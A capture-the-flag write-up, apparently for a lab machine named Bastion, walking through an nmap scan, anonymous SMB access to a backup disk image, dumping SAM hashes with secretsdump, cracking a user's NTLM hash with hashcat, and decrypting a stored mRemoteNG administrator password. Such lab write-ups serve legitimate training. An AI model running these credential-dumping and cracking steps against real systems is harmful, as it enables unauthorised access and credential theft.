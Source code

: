 ## Nmap scan:
```
# Nmap 7.92 scan initiated Tue Jan  3 20:45:06 2023 as: nmap -sC -sV -p- -vv -Pn -oA full 10.10.10.134
Increasing send delay for 10.10.10.134 from 0 to 5 due to 517 out of 1723 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
Nmap scan report for 10.10.10.134
Host is up, received user-set (0.075s latency).
Scanned at 2023-01-03 20:45:07 EST for 2639s
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
22/tcp    open  ssh          syn-ack ttl 127 OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-04T02:28:58
|_  start_date: 2023-01-04T01:43:05
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -19m58s, deviation: 34m36s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 15404/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26941/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55848/udp): CLEAN (Timeout)
|   Check 4 (port 18741/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-04T03:28:59+01:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  3 21:29:06 2023 -- 1 IP address (1 host up) scanned in 2639.24 seconds
```

139/445 - The main ports I was going to investigate, no web server so the answer is most likely there.
22 - SSH port for a windows box is unique, might be interesting later on.

I tried to log into the SMB without a password, and it worked:
```
smbclient \\\\10.10.10.134\\Backups\
```
At first I was trying to recursively download all of the files there, but it was very slow and didn't seem to work, and then I stumbled upon the ```note.txt``` file and read it:

!(images/bastion/Pasted_Image_20230104205316.png)

So I decided to mount the SMB share on my kali File System using this command:
```
mount -t cifs //10.10.10.134/Backups /mnt/smb
```
I searched for anything interesting there, and I found two .vhd files,
.vhd (virtual hard disk) file is: a disk image file format for storing the entire contents of a computer's hard drive. 
The disk image, sometimes called a virtual machine (VM), replicates an existing hard drive, including all data and structural elements.

!(images/bastion/Pasted_Image_20230104210016.png)

To list the files I used this command:
```
7z -l
```
And I could see that the first file contained only BOOT files, and the second one appeared to be the interesting one, so I used guestmount tool to view the files inside:
```
guestmount --add *filename* --inspector --ro -v /mnt/vhd
```

![test](images/bastion/Pasted_Image_20230104210329.png)
After a while of enumeration, I couldn't find any flags or other files that could be useful so I decided to copy the SAM and SYTEM files and dump them later on.
to do that I did this:
```
cd /Windows/Sytem32/config/
cp SYSTEM SAM .
secretsdump.py -sam SAM -system SYSTEM local
```
And this is what I got:
```
[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
I used hashcat to crack L4mpje NTLM hash:
```
hashcat -m 1000 L4mpje_hash /usr/share/wordlists/rockyou.txt
``` 
Result:
```
26112010952d963c8dc4217daec986d9:bureaulampje
```

Since WinRM port (5985) Was open, I tried to connect via evil-winrm, and when it didn't work I tried using the SSH port and it worked.


# Privilege Escalation

I used winPEAS for enumeration at first, but couldn't find anything that was useful.
So I started to enumerate manually, and I found mRemoteNG directory on ```C:\Program Files (x86)```
I have never seen seen it before, so I searched and read about it, and this is what I found:

**mRemoteNG:**
mRemoteNG (mremote) is an open source project (https://github.com/rmcardle/mRemoteNG) that provides a full-featured, multi-tab remote connections manager. It  supports RDP, SSH, Telnet, VNC, ICA, HTTP/S, rlogin, and raw socket connections. Additionally, It also provides the means to save connection settings such as hostnames, IP addresses, protocol, port, **and user credentials, in a password protected and encrypted connections file.**

The password can be found at ```%appdata%/mRemoteNG``` in a file named confCons.xml. This password can sometimes be the administrator password

!(images/bastion/Pasted_Image_20230104222607.png)

When I read the file I found this:
```                                                                                                                                           
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                             
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                             
```
It looks like the Administrator password, to decrypt it I used a tool called [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
!(images/bastion/Pasted_Image_20230104223021.png)

I connected via SSH, and it worked:

!(images/bastion/Pasted_Image_20230104223144.png)


